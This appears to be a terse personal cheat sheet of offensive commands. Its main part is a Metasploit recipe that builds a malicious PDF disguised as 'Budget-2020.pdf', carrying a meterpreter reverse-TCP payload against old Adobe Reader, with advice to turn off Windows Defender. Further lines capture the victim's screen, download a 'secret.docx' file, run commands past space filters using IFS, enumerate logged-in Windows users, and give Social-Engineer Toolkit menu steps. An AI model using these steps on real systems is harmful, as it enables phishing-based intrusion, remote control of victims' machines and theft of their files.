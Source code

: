 # Misc exploit

Command execution without space:

`
IFS=_;command='ls_-l';$command
`

# Exploit Adobe example:

These two combinations work on Windows 10. Make sure to turn off windows defender...
`
exploit/windows/fileformat/adobe_pdf_embedded_exe with Adobe Reader 8.1.1
exploit/windows/fileformat/adobe_libtiff with Adobe Reader 8.1.1
`
Get adobe download from: ftp://ftp.adobe.com/pub/adobe/reader/win/8.x/

Steps:
`
use exploit/windows/fileformat/adobe_libtiff 
set FILENAME Budget-2020.pdf
set PAYlOAD windows/meterpreter/reverse_tcp
set LHOST 172.17.0.2
exploit 
[COPY OVER THE PDF FILE]
use exploit/multi/handler 
`

Capture screen:
`
use espia
screengrab

`
Download a file:
`
download secret.docx
'

# Exploit settolkit example
`
3
1
13
2
2
`

# Hashcat


# Windows things

Checked logged in users:
`
qwinsta /server:1.1.1.1
`


# Useful tools

https://xsshunter.com/


